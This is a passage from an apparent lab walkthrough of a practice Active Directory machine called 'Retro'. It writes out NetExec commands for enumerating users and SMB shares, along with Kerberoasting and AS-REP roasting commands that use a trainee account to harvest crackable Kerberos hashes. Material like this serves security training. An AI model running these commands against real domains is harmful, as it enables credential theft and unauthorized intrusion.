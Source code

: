 Users

```powershell
nxc smb 10.10.79.94 -u trainee -p trainee --users
```

![alt text](/assets/screenshots/Retro/5.png)

Kerberoasting

```powershell
GetUserSPNs.py -dc-ip 192.168.1.241  retro.vl/trainee:trainee  -request
```

AS-REP Roasting

```powershell
GetNPUsers.py retro.vl/trainee:trainee -usersfile loots/users.txt  -dc-ip 10.10.79.94
```

![alt text](/assets/screenshots/Retro/6.png)

Enumerating Shares again
Now that we had valid credentials, we went back to enumerating `SMB` shares a common and essential step in Active Directory assessments. In AD environments, access control varies between accounts, so it’s important to repeat enumeration whenever new credentials are discovered. You might uncover different shares, permissions, or hidden clues depending on the user.This time, using the `trainee` credentials, we were able to read from a previously inaccessible share called `Notes`. 

```powershell
nxc smb 10.10.79.94 -u trainee -p trainee --shares
```
